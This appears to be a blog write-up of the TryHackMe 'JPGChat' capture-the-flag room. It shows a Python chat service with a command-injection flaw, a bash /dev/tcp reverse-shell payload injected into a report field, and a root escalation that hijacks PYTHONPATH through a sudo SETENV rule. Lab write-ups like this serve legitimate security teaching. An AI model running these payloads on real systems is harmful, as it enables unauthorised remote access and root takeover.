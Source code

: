 ```yaml
---
layout: post
title:  "THM: JPGChat"
date:   2021-03-01 21:00:00 +1100
category: hacking
---
```


## JPGChat
*Exploiting poorly made custom chatting service written in a certain language...*

The picture attached with this new [room](https://tryhackme.com/room/jpgchat) is the Python symbol, so I think we can guess what the language might be.

## Ports
SSH and port 3000. What's that?

## 3000
Let's try telnet:

{% highlight shell %}
└─# telnet 10.10.228.16 3000                                                                                                    
Trying 10.10.228.16...
Connected to 10.10.228.16.
Escape character is '^]'.
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[MESSAGE]
Connection closed by foreign host.
{% endhighlight %}

Oooooookkkkk.

Netcat:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/jpgchat]
└─# nc 10.10.228.16 3000                                                                                                        
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[MESSAGE]
There are currently 0 other users logged in
[MESSAGE]: something
[MESSAGE]: somethingelse
{% endhighlight %}

Netcat it is then.

If we send [REPORT], we get this:

>this report will be read by Mozzie-jpg

Let's assume this is our admin, and we want to look at the source code on Github.

Google says:

>No results found for "Mozzie-jpg" site:github.com.

Let's go there directly: https://github.com/Mozzie-jpg/

Bingo. We want [this](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py).

{% highlight python %}
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
{% endhighlight %}

We can see that the report is vulnerable to command injection. Like so:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/jpgchat]
└─# nc 10.10.228.16 3000                                                                                                        
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
me && bash -i >& /dev/tcp/10.9.10.123/1234 0>&1
your report:
{% endhighlight %}

For some reason this doesn't want to give me a very nice shell, so I just use it to send myself a better one:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/jpgchat]
└─# nc -nvlp 1234                                                                                                           1 ⨯
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.228.16] 57436
bash: cannot set terminal process group (1688): Inappropriate ioctl for device
bash: no job control in this shell
wes@ubuntu-xenial:/$ id
id
wes@ubuntu-xenial:/$ bash -i >& /dev/tcp/10.9.10.123/1235 0>&1    
bash -i >& /dev/tcp/10.9.10.123/1235 0>&1
{% endhighlight %}

## A better shell

{% highlight shell %}
wes@ubuntu-xenial:/$ id
id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
wes@ubuntu-xenial:/$ which python
which python
/usr/bin/python
wes@ubuntu-xenial:/$ python -c 'import pty;pty.spawn("/bin/bash");'
python -c 'import pty;pty.spawn("/bin/bash");'
wes@ubuntu-xenial:/$ sudo -l
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
{% endhighlight %}

We better have a look at that script then:

{% highlight python %}
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
{% endhighlight %}

Not much to it. Let's go!

{% highlight shell %}
wes@ubuntu-xenial:~$ printf 'import os\nos.system("/bin/bash")\n' >> compare.py
< 'import os\nos.system("/bin/bash")\n' >> compare.py                        
wes@ubuntu-xenial:~$ cat compare.py
cat compare.py
import os
os.system("/bin/bash")
wes@ubuntu-xenial:~$ chmod +x compare.py
wes@ubuntu-xenial:~$ sudo -u root PYTHONPATH=./:${PYTHONPATH} /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:~# cd /root
cd /root
root@ubuntu-xenial:/root#
# etc, read flag blah blah
{% endhighlight %}
